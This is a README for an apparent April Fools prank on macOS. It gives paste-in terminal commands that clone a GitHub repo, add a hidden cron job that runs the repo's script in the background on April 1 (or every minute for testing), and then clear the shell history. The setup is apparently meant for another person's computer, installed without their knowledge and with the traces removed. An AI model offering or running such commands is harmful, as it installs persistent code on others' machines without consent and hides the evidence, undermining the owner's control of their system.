 ## only works on mac os but makes the computer say nonsense every hour on april first if its on

### open terminal, copy the below command into it and hit enter
```
git clone https://github.com/benbav/april_fools.git && rm april_fools/README.md && mv april_fools ~/Documents/ && (crontab -l ; echo "0 * 1 4 * nohup /usr/bin/env bash ~/Documents/april_fools/main.sh > /dev/null 2>&1 &") | crontab - && history -c && history -p
```
#### this clones the repo, moves the april_fools folder to the Documents folder and adds it to the crontab to run every hours on april 1st
**if you need to stop it go to the Documents folder and delete the april_fools folder**

to test on your own computer this will run every minute (just to make sure it works)
```
git clone https://github.com/benbav/april_fools.git && rm april_fools/README.md && mv april_fools ~/Documents/ && (crontab -l ; echo "* * * * * nohup /usr/bin/env bash ~/Documents/april_fools/main.sh > /dev/null 2>&1 &") | crontab - && history -c && history -p
```
**if you need to stop it go to the Documents folder and delete the april_fools folder**
